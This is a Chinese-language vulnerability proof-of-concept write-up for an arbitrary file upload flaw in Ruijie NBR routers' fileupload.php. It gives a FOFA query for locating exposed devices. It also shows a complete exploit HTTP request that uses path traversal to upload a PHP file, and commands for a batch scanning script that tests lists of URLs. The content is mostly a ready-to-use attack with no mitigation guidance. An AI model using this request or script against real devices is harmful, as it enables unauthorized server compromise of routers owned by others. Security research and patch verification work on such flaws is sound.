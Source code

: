 ### 1.漏洞描述

锐捷 NBR 路由器 fileupload.php文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器获取服务器权限。

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719486257208-06fe7236-99b8-46fd-92ba-5120cf730c5f.png)

### 2.fofa语法

```plain
app="Ruijie-NBR路由器"
```

### 3.漏洞复现

```plain
POST /ddi/server/fileupload.php?uploadDir=../../321&name=123.php HTTP/1.1
Host: 127.0.0.1
Accept: text/plain, */*; q=0.01
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg

<?php phpinfo();?>
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719486322716-395afae7-91cc-4134-ad9f-24f3c814ed67.png)

访问拼接路径

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719486369736-c2ce9b63-62dd-4475-98b1-d68b01ba5f72.png)

### 4.py脚本使用

```
python3 文件名 -f url.txt # 批量测试url
python3 文件名 -u http://127.0.0.1 # 单个测试url
```

